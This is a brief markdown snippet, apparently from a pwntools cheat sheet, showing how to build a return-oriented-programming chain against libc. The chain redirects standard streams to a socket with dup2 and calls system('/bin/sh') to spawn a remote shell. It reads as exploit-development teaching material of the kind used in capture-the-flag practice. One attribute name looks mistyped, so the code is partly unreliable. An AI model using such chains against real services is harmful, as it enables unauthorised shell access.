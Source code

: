 PWNTOOLS
=
# Generate ROP
[pwnlib.rop.rop](http://docs.pwntools.com/en/stable/rop/rop.html?highlight=ROP)
```python
libc=ELF('./libc.so.6')
#set baseaddress
libc.addr=libcbase
rop = ROP(libc, badchars="\n")
#redirect to socket
rop.dup2(SOCKFD, 0)
rop.dup2(SOCKFD, 1)
rop.dup2(SOCKFD, 2)
#call system func
rop.system(next(libc.search("/bin/sh")))
#call read
rop.read(SOCKFD,buf,len)
rop.call('read', [SOCKFD,buf,len])
```
